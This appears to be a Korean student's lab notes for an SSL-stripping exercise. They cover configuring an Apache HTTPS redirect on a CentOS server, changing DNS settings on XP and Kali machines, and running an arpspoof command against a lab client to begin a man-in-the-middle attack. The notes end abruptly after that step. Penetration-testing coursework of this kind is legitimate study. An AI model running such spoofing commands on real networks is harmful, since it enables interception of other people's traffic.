 # 10.27 SSL STRIP, 실습, Heart Bleed, WAPPLES, WIN7 설치

### SSL STRIP (186p)

###### Cent

[root@localhost ~]# service named restart

###### XP

ncpa.cpl -> dns : 172.16.10.50 으로 변경

인터넷 -> www.pentest.co.kr 하면 자동으로 https로 되어야하는데 http임

https 부터 활성화 해줄거야



###### Cent

[root@localhost ~]# vim /etc/httpd/conf/httpd.conf

```
NameVirtualHost *:443
<VirtualHost *:80>
Servername www.pentest.co.kr
Redirect permanent / https://www.pentest.co.kr/
DocumentRoot /var/www/html
</VirtualHost>
<VirtualHost *:443>
Servername www.pentest.co.kr
SSLEngine On
SSLCertificateFile /etc/pki/tls/certs/kh.crt
SSLCertificateKeyFile /etc/pki/tls/private/kh.key
DocumentRoot /var/www/html
</VirtualHost>

-> 이렇게 수정
```

[root@localhost ~]# service httpd restart



###### 옛날칼리

root@KH200-kali:~# vim /etc/resolv.conf

```
nameserver 172.16.10.50
nameserver 168.126.63.1
```

root@KH200-kali:~# arpspoof -i eth0 -t 172.16.10.10 172.16.10.50



탭2
